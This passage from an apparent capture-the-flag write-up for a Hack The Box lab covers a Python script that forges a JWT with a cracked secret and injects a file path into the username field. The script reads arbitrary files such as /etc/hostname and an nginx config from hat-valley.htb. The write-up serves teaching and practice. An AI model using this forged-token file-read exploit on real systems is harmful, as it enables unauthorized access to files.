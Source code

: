 The secret of “0xdf” causes an exception, but the secret of “123beany123” works.

#### Script

I’ll write a quick script to take a file name and fetch it in [this video](https://www.youtube.com/watch?v=j6G214-J6TE):

The final script is:

```

#!/usr/bin/env python3

import jwt
import requests
import sys

secret = "123beany123"
userdata = {"username": f"/' {sys.argv[1]} '/0xdf"}
token = jwt.encode(userdata, secret)

resp = requests.get(
    "http://hat-valley.htb/api/all-leave", cookies={"token": token.decode()}
)

if len(sys.argv) == 3 and sys.argv[2] == "DOWNLOAD":
    with open(sys.argv[1].split("/")[-1], "wb") as f:
        f.write(resp.content)

else:
    print(resp.text)

```

It works:

```

oxdf@hacky$ python read_file.py /etc/hostname
awkward

```

### Enumerating via File Read

#### Webserver

My first thought is to look for files on the webserver. I can pull the `default` NGINX config:

```

oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/default | grep -v "#" | grep .
server {
        listen 80 default_server;
        listen [::]:80 default_server;
        root /var/www/html;
        index index.html index.htm index.nginx-debian.html;
        server_name _;
        location / {
                try_files $uri $uri/ =404;
        }
}

```
